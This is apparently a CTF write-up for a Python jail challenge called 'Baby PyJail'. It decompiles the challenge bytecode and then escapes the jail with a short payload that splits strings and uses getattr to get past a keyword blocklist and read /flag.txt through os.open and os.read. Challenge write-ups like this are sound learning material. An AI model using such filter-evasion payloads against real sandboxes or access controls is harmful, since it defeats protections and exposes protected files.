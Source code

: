 # Baby PyJail

The author is too lazy to write his own challenges from scratch, so he modified some of the past CTF challenge. See if you can escape the jail!

Flag is at `/flag.txt`

Author: vicevirus

## Solutions

### 1. Converting the .pyc file into .py file

When I see .pyc file which is a low-level-langauge file. 

I can get my python code by decompiling it using <b>uncompyle6</b>

<b>Install uncompyle6</b>

pip install uncompyle6

Type this to decompile the .pyc file into .py file

uncompyle6 -o . babypyjail.pyc

<img width="580" alt="image" src="https://github.com/user-attachments/assets/45d63ed2-cefc-4ec1-9c0a-4312c6fcc07f" />

### 2. Understanding the code
The code mentioned a list of Strings that cannot be input. 

The flag is in answer of the execution python file.

Hence, I need to run the flag.txt file without using the "flag" word.


### 3. Escaping the jail

fn = o.sep + 'fl' + 'ag.txt' 
f = getattr(o, 'o' + 'pen')(fn, 0)  --> f = os.open(./flag.txt, 0) which will read flag.txt with read only access
d = getattr(o, 're' + 'ad')(f, 100)  --> d = os.read(f,100)
getattr(o, 'wr' + 'ite')(2, d)  --> os.write(2,d)
EOF

Rasional : 

<b>f = os.open(./flag.txt, 0)</b> which will open the flag.txt with read only access

<b>d = os.read(f,100)</b> read the file data up to 100 bytes

<b>os.write(2,d)</b> takes the bytes in d and sends them to the standard error stream

